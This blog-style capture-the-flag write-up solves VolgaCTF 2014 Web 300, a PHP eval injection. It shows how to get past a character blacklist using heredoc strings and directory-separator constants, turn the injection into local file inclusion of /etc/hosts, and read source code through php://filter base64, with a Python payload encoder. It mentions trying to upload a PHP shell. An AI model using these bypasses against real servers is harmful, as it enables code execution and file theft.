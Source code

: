 ```yaml
---
layout: post
title:  "VolgaCTF Quals 2014 Web 300"
date:   2014-04-04
categories: writeups volgactf quals 2014 web 300
author: hx
comments: true
---
```


In this task we have a script at *[http://tasks.2014.volgactf.ru:28103/](http://tasks.2014.volgactf.ru:28103/)* that
accepts GET parameter *e* looking like a command. If command is valid, a result will be printed, otherwise we will get a blank
page. The first question - what language this command is written on?
<!-- more -->

From the task's hint I found that command *echo pi* is valid. I tried to experiment and have found another valid command
*print pi*. I knew only one language accepting both of this commands - PHP. This guess looked good because the page on the
site was written on PHP (it's possible to append *index.php* to the page URL).

I've googled that there is no constant named *pi* in PHP (there is *M_PI* constant instead of it), but there is
[*pi()* function](https://secure.php.net/manual/en/function.pi.php). Therefore I've guessed that characters *();* are appended to the executed line. The assumption was correct because [*phpinfo* command](http://tasks.2014.volgactf.ru:28103/?e=phpinfo) was transformed to
*phpinfo();* call.

I understood that it's possible to execute a code on the server, but I faced a problem - some symbols were filtered. When I was
testing what symbols were filtered I supposed that writing the URL address in a browser is really uncomfortable because some characters
such as *+* and *%* weren't encoded and behave in a wrong way. So I decided to encode them and send requests to the site
using [ipython](http://ipython.org/).

For instance, these lines of code proves that comma is removed from the command (otherwise the comma would be inserted into word *pi* and broke the code):

{% highlight python %}
In [1]: import urllib

In [2]: print urllib.urlopen('http://tasks.2014.volgactf.ru:28103/?' + urllib.urlencode({'e': 'echo p,i'})).read()
3.1415926535898
{% endhighlight %}

So, I've found out that this special symbols are banned:
{% highlight php %}
` ' " $ # * ^ : ; ( ) > / \
{% endhighlight %}

At the same time letters, digits and other special symbols, including the newline character, were allowed.

It wasn't clear how to execute a useful code in these conditions. At first sight, we aren't able to send string constants at
all. But we can remember heredoc-style string constants:

{% highlight php %}
$str = <<<EOF
string content
EOF;
{% endhighlight %}

That's equivalent to:

{% highlight php %}
$str = "string content";
{% endhighlight %}

In this case we can use such constants because *<* character and the newline are available to us. Also it's important that we can concatenate strings using the dot.

Characters */* and *:* are necessary for sending paths to files and URLs. We can take these symbols from magic constants like *\_\_DIR\_\_*, but in PHP < 5.5 it's possible to get a character from a string by index only if the string kept in a variable (this behavior seems quite strange for me). According *phpinfo()*, the server
had PHP 5.4, and we can't use variables because character *$* is prohibited.

I often use Python, so I suggested that there's a constant in PHP similar to Python's *os.path.sep* (a constant that contains a directory separator in paths, usually */* or *\\*). Fortunately, it appeared that such constant really exists in PHP and named
*DIRECTORY_SEPARATOR*. The similar constant containing the colon named *PATH_SEPARATOR*
([docs](http://www.php.net/manual/en/dir.constants.php)).

The next question is how to use the defined strings. The parentheses are prohibited on the server, so we can't call functions, but we can use language constructions like *include* or *require* to read files.

The other task is to neutralize empty brackets appended to the command by the server. It can be solved by concatenation with the
result of *printf* function without arguments. In general, this function can't be called without arguments. Nevertheless, the
interpreter just will print a warning in this case and won't stop script execution. The function returns an empty string, so the concatenation won't have any impact on the obtained string.

All these tricks allow us to use LFI (Local File Inclusion) vulnerability. We can include local files using a path encoded with heredoc-style constants and constants like *DIRECTORY_SEPARATOR*. For example, to view */etc/hosts* file we need to send the following command to the server:

{% highlight php %}
include DIRECTORY_SEPARATOR.<<<EOF
etc
EOF
.DIRECTORY_SEPARATOR.<<<EOF
hosts
EOF
.printf
{% endhighlight %}

The server have added characters *();* to this command, so it became equivalent to the following:

{% highlight php %}
include "/etc/hosts".printf();
{% endhighlight %}

During inclusion of */etc/hosts*, a PHP interpreter won't find any PHP code and will simply print contents of this file. Now we can read local files if they don't contain PHP code. The next question - where is the flag?

I thought that it is necessary to check possibility of RFI (Remote File Inclusion). For this purpose I tried to include link like
*http://example.com/*. For convenience I wrote the following script on Python, which encodes the necessary command and
receives its result:

{% highlight python linenos=table %}
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import re
import urllib

def heredoc(str):
    return ' <<<EOF\n%s\nEOF\n' % str

def encode_path(str):
    encoded = re.sub(r'[a-zA-Z0-9.-]+',
                     lambda match: heredoc(match.group()) + '.',
                     str)
    encoded = encoded.replace('/', 'DIRECTORY_SEPARATOR.')
    encoded = encoded.replace(':', 'PATH_SEPARATOR.')
    return encoded

encoded_path = encode_path('http://volgactf.ru/news/nachalobeginning')
params = urllib.urlencode({'e': 'include %sprintf()' % encoded_path})
print urllib.urlopen('http://tasks.2014.volgactf.ru:28103/?' + params).read()
{% endhighlight %}

Unfortunately, the attempt of RFI failed (the server returned an empty line on a correct request). This failure gave me a wrong idea that if HTTP protocol isn't processed, then *allow_url_include = off* and no URL protocols are processed at all.

I tried to find the file containing the flag. Popular paths like */home/volga/flag* weren't suited, so I tried to
upload a PHP shell to explore contents of various directories. Despite the LFI, it was impossible to upload the shell because writeable files weren't found: I found a configuration of Apache but files with logs weren't readable as well as  descriptors of the current process in */proc/self/fd/*.

Here my friend *Phil9l* advised me to look for the flag in a source code of *index.php*, because the flag often located there in similar tasks. It was impossible to include the source code of the script
directly, but it appeared that the directive *allow_url_include = off* doesn't forbid *php://* URL usage ([docs](https://secure.php.net/manual/en/wrappers.php.php)).

So, we can use *php://filter/* URLs to receive local files in different encodings. For example, with *php://filter/convert.base64-encode/* we can encode file to Base64
([docs](https://secure.php.net/manual/en/filters.convert.php)). Then the script won't be executed, and it's possible to
decode its source code from Base64. Let's retrieve *index.php* source with the following command:

{% highlight php %}
include 'php://filter/convert.base64-encode/resource=index.php';
{% endhighlight %}

There's no problem to encode this URL with the Python script above and execute it on the server. After decoding we will see the following source:

{% highlight php %}
<?
sleep(1);
$f= $_GET['e'];
$f = str_replace(array('`','$','*','#',':','\\','"','(',')','>','\'','/','^',';'),'', $f);
die(@eval("$f();"));

FLAG?: OUR_WEBBA_IS_A_LAZY_DOUCHEBAG;
{% endhighlight %}

So, the flag is **OUR_WEBBA_IS_A_LAZY_DOUCHEBAG**.
